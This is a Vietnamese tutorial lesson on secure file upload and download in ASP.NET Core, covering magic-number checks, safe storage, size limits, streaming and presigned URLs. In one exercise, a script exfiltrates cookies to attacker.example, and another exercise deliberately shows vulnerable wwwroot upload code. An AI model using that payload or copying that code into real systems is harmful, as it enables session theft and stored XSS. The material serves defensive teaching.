

# 9.5 - File Upload và Download

> **Tóm tắt:** Upload file là nơi tập trung nhiều lỗ hổng nhất trong một Web API, vì **mọi thứ client gửi lên đều do client kiểm soát** — kể cả `ContentType` và tên file. Ba việc bắt buộc: kiểm tra **magic number** thay vì tin header, **sinh tên file mới** thay vì dùng tên gốc (`../../etc/passwd` là một tên file hợp lệ), và **giới hạn kích thước ở nhiều tầng**. Về hiệu năng, `IFormFile` nạp **toàn bộ** file vào bộ nhớ hoặc file tạm trước khi action chạy — với file lớn phải dùng `MultipartReader` để đọc theo luồng. Và với file thật sự lớn, câu trả lời tốt nhất là **không cho file đi qua API của bạn**: dùng presigned URL.

## Mục tiêu bài học

Sau bài này bạn có thể:

- Liệt kê những gì client kiểm soát và vì sao không tin được.
- Xác thực kiểu file bằng magic number.
- Đặt giới hạn kích thước ở đúng các tầng.
- Stream file lớn mà không nạp vào bộ nhớ.
- Quyết định khi nào dùng presigned URL.

**Cần biết trước:** [8.4 — Controllers và Actions](../module-08-aspnet-core-fundamentals/8.4-controllers-and-actions.md), [8.2 — Request pipeline và middleware](../module-08-aspnet-core-fundamentals/8.2-request-pipeline-and-middleware.md), [6.6 — Async patterns](../../stage-02-csharp-professional/module-06-async-programming/6.6-async-patterns.md) (`await foreach`). *Multipart* là định dạng body mà trình duyệt dùng khi gửi form có file: body chia thành nhiều phần (*section*), mỗi phần có header riêng (`Content-Disposition`, `Content-Type`) và nội dung riêng.

## Nội dung bài học

### 9.5.1 — Những gì client kiểm soát

| Thứ | Client sửa được | Hệ quả nếu tin |
|---|---|---|
| `file.ContentType` | **Có** | `.exe` khai là `image/png` |
| `file.FileName` | **Có** | Path traversal, ghi đè file hệ thống |
| Phần mở rộng | **Có** | `shell.aspx.png` |
| `file.Length` | Không | Đây là số byte thật |
| **Nội dung file** | Có | Magic number là thứ duy nhất đáng tin |

`ContentType` chỉ là header `Content-Type` của phần multipart chứa file, do client tự ghi vào. Kiểm tra nó không phải bảo mật, chỉ là lọc lỗi vô tình.

### 9.5.2 — Upload an toàn

Bảng `Avatars` lưu file nào thuộc khách hàng nào (thêm `DbSet<Avatar> Avatars` vào `CrmDbContext` và tạo migration):

```csharp
// Data/Avatar.cs
public class Avatar
{
    public int Id { get; set; }
    public int CustomerId { get; set; }
    public required string Path { get; set; }          // đường dẫn trên đĩa server
    public required string ContentType { get; set; }   // do server quyết định theo định dạng đã kiểm tra
}
```

```csharp
// Controllers/CustomersController.cs
[ApiController]
[Route("api/customers")]
public class CustomersController(CrmDbContext db, IConfiguration config) : ControllerBase
{
    // Chữ ký (magic number) ở đầu file của từng định dạng
    private static readonly Dictionary<string, byte[][]> Signatures = new()
    {
        [".jpg"]  = [[0xFF, 0xD8, 0xFF]],
        [".jpeg"] = [[0xFF, 0xD8, 0xFF]],
        [".png"]  = [[0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]],
        [".pdf"]  = [[0x25, 0x50, 0x44, 0x46]],
    };

    [HttpPost("{id:int}/avatar")]
    [RequestSizeLimit(5 * 1024 * 1024)]
    public async Task<IActionResult> UploadAvatar(int id, IFormFile file, CancellationToken ct)
    {
        // 1. Kích thước
        if (file.Length is 0 or > 5 * 1024 * 1024)
            return Problem("File phải từ 1 byte đến 5MB", statusCode: 400);

        // 2. Phần mở rộng nằm trong whitelist
        var ext = Path.GetExtension(file.FileName).ToLowerInvariant();
        if (!Signatures.TryGetValue(ext, out var expected))
            return Problem("Chỉ hỗ trợ JPG, PNG, PDF", statusCode: 400);

        // 3. Magic number phải khớp — đây mới là kiểm tra thật
        await using var stream = file.OpenReadStream();
        var header = new byte[8];
        var read = await stream.ReadAsync(header, ct);
        stream.Position = 0;

        if (!expected.Any(sig => read >= sig.Length && header.AsSpan(0, sig.Length).SequenceEqual(sig)))
            return Problem("Nội dung file không khớp phần mở rộng", statusCode: 400);

        // 4. SINH tên mới — không bao giờ dùng tên gốc
        var safeName = $"{id}-{Guid.NewGuid():N}{ext}";

        // 5. Lưu NGOÀI wwwroot, thư mục lấy từ cấu hình
        var uploadRoot = config["Uploads:Root"] ?? Path.Combine(AppContext.BaseDirectory, "uploads");
        var path = Path.Combine(uploadRoot, "avatars", safeName);
        Directory.CreateDirectory(Path.GetDirectoryName(path)!);

        await using var target = System.IO.File.Create(path);
        await stream.CopyToAsync(target, ct);

        // 6. Lưu metadata (CustomerId, Path, ContentType) vào bảng Avatars để tra lại khi tải về
        var contentType = ext switch { ".png" => "image/png", ".pdf" => "application/pdf", _ => "image/jpeg" };
        db.Avatars.Add(new Avatar { CustomerId = id, Path = path, ContentType = contentType });
        await db.SaveChangesAsync(ct);

        return Created($"/api/customers/{id}/avatar", new { file = safeName });
    }
}
```

`System.IO.File.Create` phải viết đủ namespace vì trong controller, `File(...)` là phương thức của `ControllerBase` (trả file về client).

Năm bước, và bước 4 với bước 5 là hai bước hay bị bỏ nhất.

**Vì sao phải sinh tên mới:** `Path.Combine(uploadDir, file.FileName)` với `FileName = "../../appsettings.json"` sẽ ghi ra ngoài thư mục upload. `Path.GetFileName()` giúp được phần nào, nhưng vẫn còn vấn đề trùng tên, ký tự đặc biệt và tên dành riêng của Windows (`CON`, `PRN`, `NUL`).

**Vì sao lưu ngoài `wwwroot`:** file trong `wwwroot` được phục vụ **trực tiếp** bởi `UseStaticFiles()`. Một file `.html` upload lên sẽ chạy JavaScript **trên chính tên miền của bạn** — tức XSS lưu trữ, đọc được cookie và token của người dùng khác. Lưu ngoài rồi phục vụ qua một action có kiểm tra quyền:

```csharp
[HttpGet("{id:int}/avatar")]
public async Task<IActionResult> GetAvatar(int id, CancellationToken ct)
{
    // Tra đường dẫn file trong database theo id; không ghép đường dẫn từ dữ liệu client gửi
    var avatar = await db.Avatars.FirstOrDefaultAsync(a => a.CustomerId == id, ct);
    if (avatar is null) return NotFound();

    return PhysicalFile(avatar.Path, avatar.ContentType);   // kiểu do server lưu lúc upload
}
```

Với file cho người dùng tải về, thêm `Content-Disposition: attachment` để trình duyệt tải xuống thay vì hiển thị:

```csharp
return PhysicalFile(path, "application/octet-stream", fileDownloadName: originalName);
```

### 9.5.3 — Giới hạn kích thước ở nhiều tầng

```csharp
// 1. Mức Kestrel — giới hạn MẶC ĐỊNH cho body của mọi request
//    (không đặt thì là 30.000.000 byte, khoảng 28,6 MB)
builder.WebHost.ConfigureKestrel(o => o.Limits.MaxRequestBodySize = 10 * 1024 * 1024);

// 2. Theo endpoint — GHI ĐÈ mức Kestrel cho riêng endpoint đó
[HttpPost("{id:int}/avatar")]
[RequestSizeLimit(5 * 1024 * 1024)]
public async Task<IActionResult> UploadAvatar(int id, IFormFile file, CancellationToken ct) { ... }

// 3. Giới hạn riêng khi đọc form multipart (mặc định 128 MB cho phần body multipart)
builder.Services.Configure<FormOptions>(o =>
{
    o.MultipartBodyLengthLimit = 5 * 1024 * 1024;
    o.ValueLengthLimit = 4 * 1024;
    o.MultipartHeadersLengthLimit = 8 * 1024;
});
```

Ba tầng có vai trò khác nhau:

- **Kestrel** đặt mức mặc định cho cả ứng dụng. Request vượt mức bị dừng ngay khi đọc tới byte vượt giới hạn.
- **`[RequestSizeLimit]` / `[DisableRequestSizeLimit]` ghi đè** mức Kestrel cho riêng endpoint đó (qua `IHttpMaxRequestBodySizeFeature`). Chạy thử với Kestrel 10 MB: endpoint không có attribute từ chối file 20 MB với lỗi `Request body too large. The max request body size is 10485760 bytes.`, còn endpoint import có `[RequestSizeLimit(500 * 1024 * 1024)]` ở mục 9.5.4 nhận được file 300 MB. Nhờ vậy mức mặc định giữ nhỏ, chỉ nới cho đúng endpoint cần.
- **`FormOptions`** chỉ áp dụng khi ASP.NET Core đọc form multipart (ví dụ để bind `IFormFile`), giới hạn kích thước từng phần và header của phần.

Và nhớ reverse proxy có giới hạn riêng: Nginx mặc định `client_max_body_size 1m`. Nếu proxy chặn ở 1MB thì cấu hình 10MB trong ứng dụng vô nghĩa — client nhận 413 từ Nginx và bạn không thấy gì trong log ứng dụng.

Vì attribute ghi đè được mức Kestrel, `[DisableRequestSizeLimit]` là thứ **không bao giờ** nên dùng trên endpoint công khai: nó cho phép bất kỳ ai gửi một request vô hạn.

### 9.5.4 — File lớn: `IFormFile` không đủ

`IFormFile` **đệm toàn bộ** file trước khi action chạy: dưới 64KB thì trong bộ nhớ, lớn hơn thì ghi ra file tạm trên đĩa. Với 10 người cùng upload 500MB, đó là 5GB I/O đĩa trước khi code của bạn chạy dòng đầu tiên.

Với file lớn, đọc theo luồng bằng `MultipartReader`. Trước hết cần tắt phần model binding tự đọc form, nếu không ASP.NET Core vẫn đọc hết body trước khi vào action. ASP.NET Core không có sẵn attribute này; tài liệu Microsoft hướng dẫn tự viết một *resource filter* (filter chạy trước model binding):

```csharp
// Filters/DisableFormValueModelBindingAttribute.cs
using Microsoft.AspNetCore.Mvc.Filters;
using Microsoft.AspNetCore.Mvc.ModelBinding;

[AttributeUsage(AttributeTargets.Class | AttributeTargets.Method)]
public class DisableFormValueModelBindingAttribute : Attribute, IResourceFilter
{
    public void OnResourceExecuting(ResourceExecutingContext context)
    {
        var factories = context.ValueProviderFactories;
        factories.RemoveType<FormValueProviderFactory>();
        factories.RemoveType<FormFileValueProviderFactory>();
        factories.RemoveType<JQueryFormValueProviderFactory>();
    }

    public void OnResourceExecuted(ResourceExecutedContext context) { }
}
```

```csharp
// Controllers/CustomersController.cs
using Microsoft.AspNetCore.WebUtilities;
using Microsoft.Net.Http.Headers;

[HttpPost("import")]
[DisableFormValueModelBinding]                 // tắt model binding đọc form
[RequestSizeLimit(500 * 1024 * 1024)]
public async Task<IActionResult> Import(CancellationToken ct)
{
    // boundary là chuỗi phân cách các phần trong body multipart
    var boundary = HeaderUtilities.RemoveQuotes(
        MediaTypeHeaderValue.Parse(Request.ContentType).Boundary).Value;
    if (string.IsNullOrEmpty(boundary))
        return BadRequest("Request phải là multipart/form-data");

    var reader = new MultipartReader(boundary, Request.Body);
    long total = 0;
    var buffer = new byte[81920];

    while (await reader.ReadNextSectionAsync(ct) is { } section)
    {
        if (!ContentDispositionHeaderValue.TryParse(section.ContentDisposition, out var disposition)
            || !disposition.FileName.HasValue)
            continue;

        // Đọc từng đoạn 80 KB, KHÔNG bao giờ giữ cả file trong bộ nhớ
        int n;
        while ((n = await section.Body.ReadAsync(buffer, ct)) > 0)
            total += n;                              // thay bằng xử lý thật: ghi ra đĩa, parse CSV...
    }

    return Accepted(new { bytes = total });
}
```

Bộ nhớ dùng là **hằng số** bất kể file lớn cỡ nào: chạy thử upload file 300 MB, bộ nhớ managed của tiến trình đo bằng `GC.GetTotalMemory` chỉ khoảng 5 MB lúc trả về.

Chú ý `Accepted()`: một import 500MB không nên xử lý đồng bộ trong request. Nhận file, đẩy vào hàng đợi, trả 202 kèm một URL để theo dõi tiến độ — xem [bài 9.9](9.9-hosted-service-background-jobs.md).

### 9.5.5 — Download theo luồng

Mẫu sai hay gặp:

```csharp
// SAI — MemoryStream giữ cả file trong RAM
var stream = new MemoryStream();
await using var writer = new StreamWriter(stream, leaveOpen: true);
await foreach (var c in query.AsAsyncEnumerable())
    await writer.WriteLineAsync($"{c.Id},{c.Name}");
stream.Position = 0;
return File(stream, "text/csv", "customers.csv");
```

Với 500.000 khách hàng, `MemoryStream` có thể lên hàng trăm MB — nhân với số request đồng thời. Nó cũng khiến byte đầu tiên chỉ tới client sau khi **toàn bộ** dữ liệu đã được xử lý.

```csharp
// ĐÚNG — ghi thẳng vào response
[HttpGet("export")]
public async Task Export([FromQuery] CustomerFilterRequest request, CancellationToken ct)
{
    Response.ContentType = "text/csv; charset=utf-8";
    Response.Headers.ContentDisposition =
        $"attachment; filename=customers-{DateTime.UtcNow:yyyyMMdd}.csv";

    await using var writer = new StreamWriter(Response.Body, leaveOpen: true);
    await writer.WriteLineAsync("Id,Name,Email,Status,CreatedAt");

    await foreach (var c in db.Customers.AsNoTracking()
                       .ApplyFilters(request).AsAsyncEnumerable().WithCancellation(ct))
    {
        await writer.WriteLineAsync($"{c.Id},{Escape(c.Name)},{c.Email},{c.Status},{c.CreatedAt:O}");
    }
}
```

Bộ nhớ hằng số, byte đầu tiên ra ngay. Đánh đổi đã nói ở [bài 6.6](../../stage-02-csharp-professional/module-06-async-programming/6.6-async-patterns.md): status 200 **đã gửi** trước khi bạn biết có lỗi hay không, nên lỗi giữa chừng cho client một file CSV cụt.

`ApplyFilters` là phương thức lọc ở [bài 9.4](9.4-pagination-filtering-sorting.md). Hàm `Escape` (tự viết: bọc giá trị trong dấu nháy kép, nhân đôi dấu nháy bên trong) là bắt buộc: một tên chứa dấu phẩy sẽ phá cấu trúc CSV. Và cẩn thận **CSV injection** — giá trị bắt đầu bằng `=`, `+`, `-` hay `@` sẽ được Excel thực thi như công thức.

### 9.5.6 — Tốt nhất: đừng cho file đi qua API

Với file lớn hoặc lưu lượng cao, mẫu tốt nhất là **presigned URL**:



```csharp
[HttpPost("uploads/request")]
public async Task<ActionResult<UploadTicket>> RequestUpload(
    UploadRequest request, CancellationToken ct)
{
    if (request.SizeBytes > 500 * 1024 * 1024) return BadRequest("File quá lớn");

    var blobName = $"{Guid.NewGuid():N}{Path.GetExtension(request.FileName)}";
    // storage: service bọc SDK của S3 hoặc Azure Blob, ví dụ minh hoạ
    var url = storage.GenerateUploadUrl(blobName, TimeSpan.FromMinutes(15));

    return Ok(new UploadTicket(url, blobName));
}
```

Lợi ích: file **không đi qua** server của bạn, nên không tốn băng thông, không tốn bộ nhớ, và không giới hạn bởi timeout request. Đây là cách S3, Azure Blob và Google Cloud Storage được thiết kế để dùng.

Cái giá: client phức tạp hơn, và bạn phải xác thực nội dung **sau** khi upload xong (thường bằng một background job kiểm tra magic number và quét virus).

### 9.5.7 — Lỗi thường gặp

- **Upload file vài chục MB nhận `400` với lỗi `Failed to read the request form. Request body too large.`** File vượt mức `MaxRequestBodySize` của Kestrel. Nới cho riêng endpoint bằng `[RequestSizeLimit]`, đừng nới cả ứng dụng.
- **Client nhận `413` mà log ứng dụng không có gì.** Reverse proxy (Nginx `client_max_body_size`) chặn trước.
- **Ghi file bằng `File.Create(...)` trong controller báo lỗi biên dịch.** `File` trùng tên phương thức của `ControllerBase`; viết `System.IO.File.Create`.
- **Code stream multipart chép từ mạng thiếu `[DisableFormValueModelBinding]`.** Attribute này phải tự viết như mục 9.5.4.

**Danh sách rà soát upload và download**

- [ ] Kiểu file được xác thực bằng magic number, không chỉ bằng ContentType.
- [ ] Tên file lưu trữ được sinh mới, không dùng tên client gửi lên.
- [ ] File upload lưu ngoài wwwroot.
- [ ] Giới hạn kích thước được đặt ở cả Kestrel, FormOptions và action.
- [ ] Giới hạn của reverse proxy khớp với giới hạn của ứng dụng.
- [ ] Không dùng DisableRequestSizeLimit trên endpoint công khai.
- [ ] File lớn dùng MultipartReader, không dùng IFormFile.
- [ ] Export dữ liệu lớn ghi thẳng vào Response.Body, không qua MemoryStream.
- [ ] Giá trị CSV được escape và chống CSV injection.
- [ ] Đã cân nhắc presigned URL cho file lớn.

## Bài tập áp dụng

#### Bài 1 — Giả mạo `ContentType`

Đổi tên một file `.html` thành `.png` và gửi với `Content-Type: image/png`. Xác nhận validation dựa trên `ContentType` cho qua. Thêm kiểm tra magic number và kiểm chứng lại.

**Tiêu chí hoàn thành:** bạn nêu được **ai** đặt giá trị `ContentType` mà server nhận được.

<details>
<summary><strong>Gợi ý và lời giải — Bài 1</strong></summary>

**Gợi ý.** Câu trả lời cho tiêu chí là: **client đặt**. `IFormFile.ContentType` chỉ là giá trị header `Content-Type` của phần multipart chứa file, server không kiểm chứng gì cả.

**Lời giải — dựng file giả:**

```bash
cat > payload.html <<'EOF'
<script>fetch('https://attacker.example/?c=' + document.cookie)</script>
EOF

mv payload.html avatar.png

curl -i -X POST localhost:5000/api/customers/42/avatar \
  -F "file=@avatar.png;type=image/png"
```

Cờ `;type=image/png` nói thẳng với `curl` là hãy khai báo kiểu đó — không cần công cụ đặc biệt nào.

**Với validation dựa trên `ContentType`:**

```csharp
// KHÔNG bảo vệ được gì
var allowed = new[] { "image/png", "image/jpeg" };
if (!allowed.Contains(file.ContentType))
    return BadRequest("Chỉ hỗ trợ ảnh");
```

```text
HTTP/1.1 200 OK
{"url":"/api/customers/42/avatar"}
```

**Cho qua.** Phần mở rộng cũng vậy: nó chỉ là mấy ký tự cuối của một chuỗi do client gửi lên.

**Sau khi thêm kiểm tra magic number:**

Dùng action `UploadAvatar` ở mục 9.5.2 (bước 3 là kiểm tra magic number). Gửi lại đúng file đó (kết quả chạy thật):

```text
HTTP/1.1 400 Bad Request
{"type":"https://tools.ietf.org/html/rfc9110#section-15.5.1","title":"Bad Request","status":400,"detail":"Nội dung file không khớp phần mở rộng","traceId":"..."}
```

File HTML bắt đầu bằng `<scr` (`0x3C 0x73 0x63 0x72`), không khớp chữ ký PNG nào.

**Ba giới hạn của magic number mà bạn phải biết:**

1. **Nó chỉ chứng minh mấy byte đầu, không chứng minh cả file.** Một file PNG hợp lệ vẫn có thể chứa payload ở phần đuôi — kỹ thuật "polyglot". Với ảnh, cách chắc chắn hơn là **xử lý lại** ảnh (resize, đổi mã) bằng ImageSharp: mọi thứ không phải dữ liệu ảnh sẽ biến mất trong quá trình đó.
2. **Không áp dụng được cho mọi định dạng.** CSV, TXT và SVG không có chữ ký cố định. Riêng SVG là XML, tức là **chạy được script** — đừng nhận nó cho ảnh đại diện.
3. **Nó không thay thế được việc lưu ngoài `wwwroot`.** Xem bài 2.

**Thứ tự kiểm tra hợp lý:** kích thước → phần mở rộng trong whitelist → magic number khớp → sinh tên mới → lưu ngoài `wwwroot`. Bốn bước đầu chặn phần lớn; bước cuối là thứ giữ bạn an toàn khi bốn bước đầu bị vượt qua.

</details>

---

#### Bài 2 — XSS lưu trữ qua thư mục upload

Upload một file HTML có `<script>alert(document.cookie)</script>` vào `wwwroot/uploads`, mở URL đó và xác nhận script chạy trên tên miền của bạn. Chuyển ra ngoài `wwwroot` và kiểm chứng lại.

**Tiêu chí hoàn thành:** bạn giải thích được vì sao **cùng một file** lại nguy hiểm ở chỗ này mà vô hại ở chỗ kia.

<details>
<summary><strong>Gợi ý và lời giải — Bài 2</strong></summary>

**Gợi ý.** Khác biệt không nằm ở file. Nó nằm ở chỗ **ai phục vụ file đó** và **với tên miền nào**.

**Lời giải — bản dễ tổn thương:**

```csharp
app.UseStaticFiles();     // phục vụ MỌI thứ trong wwwroot

var path = Path.Combine(env.WebRootPath, "uploads", file.FileName);
await using var target = File.Create(path);
await file.CopyToAsync(target, ct);
```

Mở `https://crm.company.com/uploads/payload.html`, trình duyệt nhận:

```http
HTTP/1.1 200 OK
Content-Type: text/html
```

và **chạy script**. Hộp thoại `alert` hiện ra với cookie phiên của người đang đăng nhập.

**Vì sao đây là lỗ hổng thật, không phải trò biểu diễn.** Script chạy trên `crm.company.com`, nên với trình duyệt nó là code **của chính bạn**. Nó có đủ quyền:

- đọc `document.cookie` (trừ những cookie đặt `HttpOnly`),
- đọc `localStorage` — nơi rất nhiều ứng dụng cất JWT,
- gọi API của bạn kèm cookie phiên của nạn nhân, vì cùng origin nên CORS không chặn.

Kẻ tấn công chỉ cần gửi link cho một người có quyền cao hơn. Đây chính là lý do [bài 10.10](../module-10-authentication-authorization/10.10-security-best-practices.md) khuyên giữ token ngoài `localStorage`.

**Bản đã sửa — lưu ngoài `wwwroot`, phục vụ qua action:**

Lưu bằng action `UploadAvatar` ở mục 9.5.2 (thư mục `Uploads:Root`, ví dụ `/var/crm/uploads`), và phục vụ qua action có kiểm tra quyền:

```csharp
[HttpGet("{id:int}/avatar")]
public async Task<IActionResult> GetAvatar(int id, CancellationToken ct)
{
    var avatar = await db.Avatars.FirstOrDefaultAsync(a => a.CustomerId == id, ct);
    if (avatar is null) return NotFound();

    // Kiểm tra quyền xem: học kỹ ở Module 10 (resource-based authorization)
    if (!CanView(User, avatar.CustomerId)) return Forbid();

    return PhysicalFile(avatar.Path, avatar.ContentType);   // kiểu do SERVER lưu lúc upload
}
```

Ba thứ đổi cùng lúc:

| | Trong `wwwroot` | Qua action |
|---|---|---|
| Ai quyết định `Content-Type` | Suy từ **phần mở rộng** | **Server** khai cứng |
| Kiểm tra quyền | Không có | Có, trước khi trả byte nào |
| Đường dẫn đoán được | Có | Không — id ánh xạ qua database |

**Thêm hai lớp phòng vệ rẻ mà hiệu quả:**

```csharp
// Bắt trình duyệt TẢI XUỐNG thay vì hiển thị
Response.Headers.ContentDisposition = "attachment";

// Chặn trình duyệt tự đoán kiểu khi header nói khác
Response.Headers.XContentTypeOptions = "nosniff";
```

Không có `nosniff`, một số trình duyệt vẫn **tự đoán** nội dung là HTML dù server khai `image/png` — và lỗ hổng quay lại.

**Cách triệt để nhất cho hệ thống lớn:** phục vụ file người dùng từ **một tên miền khác** (`usercontent-example.com`). Khi đó, kể cả script có chạy, nó nằm ở origin khác nên không chạm được cookie hay API của tên miền chính. Đây là cách GitHub dùng cho `githubusercontent.com`.

</details>

---

#### Bài 3 — Đo bộ nhớ: gom vào `MemoryStream` hay ghi thẳng

Export 200.000 bản ghi qua `MemoryStream` và qua `Response.Body`, đo bộ nhớ và ghi lại thời điểm byte đầu tiên tới client.

**Tiêu chí hoàn thành:** bạn nêu được **hai** khác biệt, không chỉ một: lượng bộ nhớ, và thời điểm client nhận byte đầu tiên.

<details>
<summary><strong>Gợi ý và lời giải — Bài 3</strong></summary>

**Gợi ý.** `GC.GetAllocatedBytesForCurrentThread()` đo tổng cấp phát; `GC.GetTotalMemory(true)` đo phần **còn bị giữ** sau thu gom. Hai con số nói hai chuyện khác nhau và bạn cần cả hai.

**Lời giải.** Đo trên .NET 10, PostgreSQL 16, bảng 200.000 khách hàng, CSV ba cột khoảng 9,7 MB, build Release. Hai endpoint dùng đúng hai đoạn code ở mục 9.5.5, mỗi endpoint in thêm tổng cấp phát (`GC.GetTotalAllocatedBytes(true)` trước và sau) và kích thước `MemoryStream`:

| | `MemoryStream` rồi trả về | Ghi thẳng vào `Response.Body` |
|---|---|---|
| Mảng giữ toàn bộ file trong RAM | **`Capacity` 17 MB** cho 9,7 MB dữ liệu | Không có |
| Tổng cấp phát cho một request | **146 MB** | 111 MB |

Phần cấp phát chung (khoảng 111 MB) là các object `Customer` và chuỗi tạo ra khi đọc từng dòng, cả hai cách đều có. Phần chênh khoảng 35 MB là của `MemoryStream`.

**Vì sao 17 MB cho 9,7 MB dữ liệu, và 35 MB cấp phát thêm.** `MemoryStream` tăng dung lượng bằng cách **nhân đôi mảng nội bộ**: đầy thì cấp phát mảng gấp đôi rồi chép sang, mảng cũ thành rác. Cộng các mảng 256 B, 512 B, ..., 16 MB lại được khoảng 32 MB. Mảng trên 85.000 byte đi thẳng vào **Large Object Heap**, chỉ được dọn khi GC chạy Gen 2.

**Nhân con số đó với số request đồng thời.** Mười người cùng export là mười mảng 17 MB sống cùng lúc cộng phần LOH chưa kịp dọn, đủ đẩy một container 512 MB tới giới hạn bộ nhớ.

**Khác biệt thứ hai, và nó quan trọng với người dùng hơn:**

```bash
curl -o /dev/null -w 'byte dau tien: %{time_starttransfer}s | tong: %{time_total}s\n' \
  localhost:5000/api/customers/export
```

Kết quả lần chạy thứ ba (lần đầu chậm hơn vì ứng dụng vừa khởi động):

| | Byte đầu tiên | Tổng |
|---|---|---|
| `MemoryStream` | **0,28 s** | 0,36 s |
| Ghi thẳng | **0,006 s** | 0,20 s |

Với `MemoryStream`, client nhận byte đầu tiên chỉ sau khi **toàn bộ** dữ liệu đã đọc xong. Với cách ghi thẳng, byte đầu ra gần như tức thì và trình duyệt hiện tiến độ tải ngay. Bảng càng lớn hoặc database càng chậm thì khoảng cách càng rõ.

**Bản ghi thẳng:**

```csharp
[HttpGet("export")]
public async Task Export(CancellationToken ct)
{
    Response.ContentType = "text/csv";
    Response.Headers.ContentDisposition = "attachment; filename=customers.csv";

    await using var writer = new StreamWriter(Response.Body, Encoding.UTF8);
    await writer.WriteLineAsync("Id,Name,Email");

    await foreach (var c in db.Customers.AsNoTracking().AsAsyncEnumerable().WithCancellation(ct))
        await writer.WriteLineAsync($"{c.Id},{Escape(c.Name)},{c.Email}");
}
```

Ba chi tiết trong đoạn này:

1. **Kiểu trả về là `Task`, không phải `IActionResult`.** Bạn ghi thẳng vào `Response.Body`, nên không còn gì để trả.
2. **`AsAsyncEnumerable` chứ không phải `ToListAsync`.** `ToListAsync` nạp hết vào bộ nhớ trước — mất sạch lợi ích, như [bài 5.9](../../stage-02-csharp-professional/module-05-advanced-csharp/5.9-advanced-notes.md) trình bày.
3. **Không đặt được header sau dòng ghi đầu tiên.** Response đã bắt đầu, nên nếu có lỗi giữa chừng bạn **không** trả 500 được nữa — client nhận một file CSV cụt. Với dữ liệu quan trọng, hãy ghi ra file tạm rồi trả về, hoặc chuyển hẳn sang job nền trả 202 như [bài 9.9](9.9-hosted-service-background-jobs.md).

**Quy tắc rút ra.** Kích thước phản hồi **tỉ lệ với dữ liệu** thì phải ghi theo luồng. `MemoryStream` chỉ hợp lý khi bạn biết chắc kết quả nhỏ và có giới hạn trên.

</details>

## Tự kiểm tra

<details>
<summary>Vì sao không tin ContentType của file upload?</summary>

Vì nó chỉ là header `Content-Type` của phần multipart do client tự ghi vào. Một file thực thi có thể khai là image/png. Kiểm tra nó chỉ lọc được lỗi vô tình chứ không phải bảo mật; thứ duy nhất đáng tin là nội dung file, tức magic number ở những byte đầu.

</details>

<details>
<summary>Vì sao phải sinh tên file mới?</summary>

Vì tên file do client kiểm soát. Nối thẳng vào đường dẫn với tên kiểu hai chấm chấm gạch chéo sẽ ghi ra ngoài thư mục upload. Ngoài ra còn vấn đề trùng tên, ký tự đặc biệt và tên dành riêng của Windows như CON hay NUL.

</details>

<details>
<summary>Vì sao không lưu file upload trong wwwroot?</summary>

Vì file trong wwwroot được UseStaticFiles phục vụ trực tiếp. Một file HTML upload lên sẽ chạy JavaScript trên chính tên miền của bạn, tức XSS lưu trữ đọc được cookie và token của người dùng khác. Nên lưu ngoài rồi phục vụ qua một action có kiểm tra quyền.

</details>

<details>
<summary>Vì sao cần giới hạn kích thước ở nhiều tầng?</summary>

Vì mỗi tầng có vai trò khác. Kestrel đặt mức mặc định nhỏ cho cả ứng dụng; `[RequestSizeLimit]` ghi đè mức đó cho riêng endpoint cần nhận file lớn; `FormOptions` giới hạn riêng việc đọc form multipart. Và reverse proxy có giới hạn riêng, Nginx mặc định chỉ 1MB, nên cấu hình trong ứng dụng vô nghĩa nếu proxy chặn trước.

</details>

<details>
<summary>IFormFile có vấn đề gì với file lớn?</summary>

Nó đệm toàn bộ file trước khi action chạy: dưới 64KB thì trong bộ nhớ, lớn hơn thì ghi ra file tạm trên đĩa. Với 10 người cùng upload 500MB là 5GB I/O đĩa trước khi code của bạn chạy dòng đầu. File lớn nên dùng MultipartReader để đọc theo luồng với bộ nhớ hằng số.

</details>

<details>
<summary>Presigned URL giải quyết gì?</summary>

File không đi qua server của bạn nên không tốn băng thông, không tốn bộ nhớ và không bị giới hạn bởi timeout request. Client xin một URL có hạn từ API, upload thẳng lên blob storage, rồi gọi lại API để xác nhận. Cái giá là client phức tạp hơn và phải xác thực nội dung sau khi upload xong.

</details>

## Kết luận

Ba điều đáng nhớ nhất:

1. **Magic number là kiểm tra duy nhất đáng tin.** `ContentType` và tên file đều do client viết.
2. **Sinh tên mới và lưu ngoài `wwwroot`** — nếu không, upload trở thành XSS lưu trữ.
3. **File lớn không đi qua `IFormFile`**, và tốt nhất là không đi qua API của bạn.

## Tham khảo

- [Upload files in ASP.NET Core](https://learn.microsoft.com/en-us/aspnet/core/mvc/models/file-uploads)
